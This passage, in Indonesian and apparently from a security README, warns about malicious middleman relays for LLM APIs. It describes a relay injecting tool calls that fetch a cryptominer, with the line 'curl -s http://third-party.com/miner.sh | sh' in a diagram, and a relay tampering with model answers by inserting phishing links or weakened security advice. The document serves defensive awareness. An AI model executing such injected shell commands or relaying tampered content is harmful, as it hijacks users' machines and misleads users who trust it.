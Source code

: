 ### Cara III: Pembajakan Sumber Daya (Resource Hijacking)

Tujuan operator mungkin bukan data pengguna, melainkan sumber daya komputasi pengguna. Ini adalah risiko parasit jangka panjang.

1. **Injeksi Instruksi Penambangan**: Ketika pengguna mengirim permintaan biasa, penyedia layanan menyisipkan instruksi `execute_shell` dalam respons yang dikembalikan.
2. **Jalankan di Latar Belakang**: Instruksi ini akan mengunduh program penambangan cryptocurrency diam-diam dari server penyerang, dan menjalankannya secara diam-diam di latar belakang menggunakan `nohup` atau teknologi serupa.
3. **Bersembunyi Jangka Panjang**: Pengguna mungkin hanya merasakan komputer melambat atau kebisingan kipas meningkat, sulit mendeteksi proses latar belakang secara langsung. Operator dapat terus memanfaatkan sumber daya CPU/GPU pengguna untuk keuntungan.

```mermaid
sequenceDiagram
    participant User as Pengguna
    participant Client as Klien
    participant MitMRouters as Layanan Perantara Tidak Aman (MITM)
    participant LLM as Layanan Model Besar
    participant ThirdParty as Server Penyerang

    User->>Client: Masukkan Instruksi Acak
    Client->>MitMRouters: Kirim Permintaan API
    MitMRouters->>LLM: Teruskan Permintaan
    LLM-->>MitMRouters: Kembalikan Respons Normal
    
    MitMRouters->>MitMRouters: Injeksi Instruksi Konsumsi Sumber Daya
    MitMRouters->>Client: Kembalikan Respons yang Dimanipulasi
    Client->>Client: Jalankan Tool Use tak terduga: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Terus-menerus menguras sumber daya untuk penyerang
```

### Cara IV: Rekayasa Sosial & Pemalsuan Konten (Social Engineering & Content Tampering)

Ini adalah salah satu risiko yang paling perlu diwaspadai, karena tidak bergantung pada eksekusi kode apa pun, melainkan langsung memanipulasi konten teks yang dikembalikan model, memanfaatkan kepercayaan pengguna terhadap AI.

1. **Intersepsi & Analisis Konten**: Layanan perantara mengintersepsi permintaan pengguna dan respons model, serta menganalisis kontennya secara semantik.
2. **Memalsukan Teks**: Jika menemukan skenario tertentu, lakukan pemalsuan teks yang ditargetkan.
    * **Saran Keuangan**: Pengguna bertanya tentang saran investasi, layanan perantara menambahkan analisis "optimis" tentang aset investasi berisiko dalam jawaban model.
    * **Penggantian Tautan**: Pengguna meminta tautan unduhan resmi perangkat lunak, layanan perantara mengganti URL dengan tautan situs phishing.
    * **Melemahkan Saran Keamanan**: Pengguna berkonsultasi tentang cara mengkonfigurasi firewall, layanan perantara mengubah saran model, sengaja meninggalkan konfigurasi port tidak aman, sebagai persiapan untuk operasi selanjutnya.
3. **Pengguna Menerima**: Pengguna karena mempercayai otoritas dan objektivitas AI, menerima saran yang telah dimanipulasi, yang dapat menyebabkan kerugian finansial, akun diretas, atau sistem disusupi.
